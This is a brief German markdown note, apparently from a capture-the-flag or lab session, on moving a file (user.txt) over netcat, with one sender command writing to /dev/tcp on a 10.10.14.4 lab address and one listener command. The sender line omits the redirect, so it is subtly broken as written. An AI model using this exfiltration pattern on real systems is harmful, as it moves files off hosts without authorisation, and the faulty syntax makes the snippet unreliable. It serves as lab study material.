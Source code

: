# Datentransfer via nc
## Sender
```bash
cat user.txt /dev/tcp/10.10.14.4/6789
```

## Empfänger
```bash
nc -lvnp 6789 > user.txt
```
